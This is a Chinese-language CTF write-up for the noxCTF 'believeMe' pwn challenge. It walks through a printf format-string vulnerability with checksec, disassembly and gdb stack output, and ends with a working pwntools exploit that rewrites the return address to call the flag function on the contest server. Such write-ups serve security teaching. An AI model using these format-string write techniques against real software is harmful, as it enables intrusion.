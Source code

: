 ```yaml
---
layout: post
title:  "nox_CSAW部分pwn题解"
date:   2018-10-09 18:00:00
categories: WriteUp
tags: WriteUp PWN nox CSAW
---
```


* content
{:toc}

## 前言

暑假的时候遇到了一群一起学习安全的小伙伴，在他们的诱劝下，开始接触国外的CTF比赛，作为最菜的pwn选手就试着先打两场比赛试试水，结果发现国外比赛真有意思哎嘿。

本文首发于安恒网络空间安全讲武堂 http://url.cn/5Abhs


### NOXCTF

#### PWN—believeMe(378)

惯例先走一遍file+checksec检查
```bash
➜  believeMe file believeMe 
believeMe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=03d2b6bcc0a0fdbab80a9852cab1d201437e7e30, not stripped
➜  believeMe checksec believeMe 
[*] '/home/Ep3ius/pwn/process/noxCTF2018/believeMe/believeMe'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

再简单的运行下程序看看程序是什么样的结构

```bash
➜  believeMe ./believeMe 
Someone told me that pwning makes noxāle...
But......... how ???? 
aaaa
aaaa%  
➜  believeMe
```
然后ida简单分析下，我们可以很直接的看到在main函数里有一个格式化字符串漏洞

```c
.text:080487CC ; 10:   printf(s);
.text:080487CC                 sub     esp, 0Ch
.text:080487CF                 lea     eax, [ebp+s]
.text:080487D2                 push    eax             ; format
.text:080487D3                 call    _printf
```

这里我本来以为只是简单的利用格式化字符串去修改fflush_got所以我先测出来fmt的偏移量为9

```bash
➜  believeMe ./believeMe 
Someone told me that pwning makes noxāle...
But......... how ???? 
aaaa%9$x
aaaa61616161%                                                         
➜  believeMe 
```

然后构造payload=fmtstr_payload(9,{fflush_got:noxflag_addr})想直接getflag，然后实际上没那么简单。调试过后发现fmtstr_payload不全，len(payload)输出检查后发现长度超了，稍微查了下pwntools文档的fmtstr部分，发现它默认是以hhn也就是单字节的形式去构造payload，如果以双字节或四字节的形式要加上write_size参数，这样payload的长度就不会超过40
```python
payload = fmtstr_payload(9,{fflush_got:noxFlag_addr},write_size='short')
```

然而当我们成功修改fflush_got为noxFlag的地址时会进入到一个死循环中，我们看一下noxFlag函数里面不难发现问题

```c
void __noreturn noxFlag()
{
  char i; // [esp+Bh] [ebp-Dh]
  FILE *stream; // [esp+Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  puts(s);
  fflush(stdout);//这里又调用了fflush函数，由于我们把fflush_got改成了noxFlag地址，这里相当递归调用noxFlag，形成死循环
  if ( stream )
  {
    for ( i = fgetc(stream); i != -1; i = fgetc(stream) )
    {
      putchar(i);
      fflush(stdout);
    }
    fflush(stdout);
    fclose(stream);
  }
  else
  {
    puts("Can't read file \n");
    fflush(stdout);
  }
  exit(0);
}
```

当时就卡在这里没绕出去，经过队友提醒能不能改return地址，才发现思路走偏了

我们gdb把断点下在printf调试一下，先查看下堆栈

```bash
gdb-peda$ stack 30
0000| 0xffffcf1c --> 0x80487d8 (<main+129>:	add    esp,0x10)
0004| 0xffffcf20 --> 0xffffcf44 ("aaaa%21$x")
0008| 0xffffcf24 --> 0x804890c --> 0xa ('\n')
0012| 0xffffcf28 --> 0xf7fb45a0 --> 0xfbad2288 
0016| 0xffffcf2c --> 0x8f17 
0020| 0xffffcf30 --> 0xffffffff 
0024| 0xffffcf34 --> 0x2f ('/')
0028| 0xffffcf38 --> 0xf7e0edc8 --> 0x2b76 ('v+')
0032| 0xffffcf3c --> 0xffffd024 --> 0xffffd201 ("/home/Ep3ius/pwn/process/noxCTF2018/believeMe/believeMe")
0036| 0xffffcf40 --> 0x8000 
0040| 0xffffcf44 ("aaaa%21$x")
0044| 0xffffcf48 ("%21$x")
0048| 0xffffcf4c --> 0xf7000078 
0052| 0xffffcf50 --> 0x1 
0056| 0xffffcf54 --> 0x0 
0060| 0xffffcf58 --> 0xf7e30a50 (<__new_exitfn+16>:	add    ebx,0x1835b0)
0064| 0xffffcf5c --> 0x804885b (<__libc_csu_init+75>:	add    edi,0x1)
0068| 0xffffcf60 --> 0x1 
0072| 0xffffcf64 --> 0xffffd024 --> 0xffffd201 ("/home/Ep3ius/pwn/process/noxCTF2018/believeMe/believeMe")
0076| 0xffffcf68 --> 0xffffd02c --> 0xffffd239 ("XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat0")
0080| 0xffffcf6c --> 0xed1acd00 
0084| 0xffffcf70 --> 0xf7fb43dc --> 0xf7fb51e0 --> 0x0 
0088| 0xffffcf74 --> 0xffffcf90 --> 0x1 
0092| 0xffffcf78 --> 0x0 
0096| 0xffffcf7c --> 0xf7e1a637 (<__libc_start_main+247>:	add    esp,0x10)
--More--(25/30)
0100| 0xffffcf80 --> 0xf7fb4000 --> 0x1b1db0 
0104| 0xffffcf84 --> 0xf7fb4000 --> 0x1b1db0 
0108| 0xffffcf88 --> 0x0 
0112| 0xffffcf8c --> 0xf7e1a637 (<__libc_start_main+247>:	add    esp,0x10)
0116| 0xffffcf90 --> 0x1 
```

我们可以看到在偏移112处return地址为0xFFFFCF8C，我们找到了一个与它偏移相近的并且能被泄露出来的地址，因为题目说了(No ASLR) ，所以return的地址是不会变化，我们可以先连上一次得到return地址构造payload来getflag

(这里有一个挺坑的地方就是你在本地复现时终端运行得到地址和用pwntools得到的地址可能不一样，这块我还是不懂是什么原理，希望知道的师傅能讲一下学习一波)

EXP
```python
from pwn import*
context(os='linux',arch='i386')#,log_level='debug')
#n = process('./believeMe')
n = remote('18.223.228.52',13337)

shell_addr = 0x804867b
#ret_addr = 0xffffd030 - 0x4
ret_addr = 0xffffdd30 - 0x4
payload = fmtstr_payload(9,{ret_addr:shell_addr},write_size='short')
n.recvuntil('But......... how ????')
#n.sendline('%21$x')
n.sendline(payload)
n.interactive()
```